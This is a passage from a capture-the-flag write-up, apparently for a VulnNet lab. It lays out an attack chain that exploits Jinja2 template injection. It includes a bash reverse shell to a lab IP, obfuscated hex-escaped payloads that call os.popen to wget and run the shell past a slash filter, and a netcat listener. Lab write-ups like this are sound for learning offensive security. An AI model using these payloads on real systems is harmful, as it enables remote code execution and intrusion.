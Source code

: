 ![id](/assets/img/vulnnet_dotpy/05.png){: w="600"}


Running `which%20wget` to check if `wget` is available.  From further testing I'm unable to get `/` working in any of the commands.  This will require a multistep process to avoid use the forward slash.

>We need to use `%20` as our space encoding otherwise the server will try to parse it.
{: .prompt-info }

## [04] Attack Chain

Now having all this information available to us, we're able to start formulating our attack chain.
1. Create Bash reverse shell and save it as `index.html`.  This allows us to download this file without using a forward slash `/`.
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.8.208.76/4242 0>&1'
```

2. Stand up a web server to publish our shell. `sudo` is required to use port `80`, the default port for web servers.
```bash
sudo python3 -m http.server 80
```
3. Download file with `wget`.
```python
{% raw %}{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('wget%2010\x2e8\x2e208\x2e76')|attr('read')()}}{% endraw %}
```

4. Run `netcat` to catch reverse connection.
```bash
nc -lnvp 4242
```

1. Run reverse shell `cat index.html|bash`. To use the pipe `|` we'll have to convert to hex `\x7c`.
```python
{% raw %}{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat%20index\x2ehtml\x7cbash')|attr('read')()}}{% endraw %}
```
